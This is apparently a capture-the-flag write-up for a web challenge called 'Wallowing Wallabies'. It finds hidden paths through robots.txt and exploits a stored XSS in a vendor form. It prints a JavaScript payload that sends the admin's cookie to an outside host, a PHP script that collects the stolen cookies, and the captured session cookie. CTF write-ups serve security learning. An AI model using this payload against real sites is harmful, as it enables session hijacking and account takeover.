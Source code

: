 # Wallowing Wallabies (Web, 25pts)

## Problem

Wallowing Wallabies provides enterprise contract management - we'd like to find out how easy it is to perform corporate espionage against them. 

## Solution


We've got web page with no visible navigation or form except Home page:

![Wallowing Wallabies](assets/1.png)

Quick look at _robots.txt_ reveals some hidden content:

```

User-agent: *
Disallow: /deep-blue-sea/
Disallow: /deep-blue-sea/team/
# Yes, these are alphabet puns :)
Disallow: /deep-blue-sea/team/characters
Disallow: /deep-blue-sea/team/paragraphs
Disallow: /deep-blue-sea/team/lines
Disallow: /deep-blue-sea/team/runes
Disallow: /deep-blue-sea/team/vendors

```

Web page at _/deep-blue-sea/team/vendors_ contains form with two fields:

![Wallowing Wallabies](assets/2.png)

Text field was vulnerable to XSS and allows to put payload with simple JavaScript to steal cookie:

```HTML

<script src="bootstrap.min.js">
</script>
<script>document.write('<img src="http://sword.x10host.com/?c='+document.cookie+'"/>');
</script>

```

This payload was saved in message sent to site admin.
At _http://sword.x10host.com/_ simple PHP script saves stolen cookie:

```PHP
<?php

if (isset($_GET["c"])) {
	$cookie = $_GET["c"];
	file_put_contents("cookies.txt", $cookie);
}

```

After a couple of minutes someone "read" message and _cookies.txt_ file on _sword.x10host.com_ contains cookie:

```
green-mountains=eyJub25jZSI6ImUxNjgwMjcyYTcxNDE3MjMiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vdmVuZG9ycy4qJCIsImV4cGlyeSI6MTQ2MjAzMTg2OH0=|1462031865|d985a99f12846cd73da3b9b01b3b921fd15512e3
```

![Wallowing Wallabies](assets/3.png)

Refresh of Wallowing Wallabies page with stolen cookie revealed the flag:

![Wallowing Wallabies](assets/4.png)
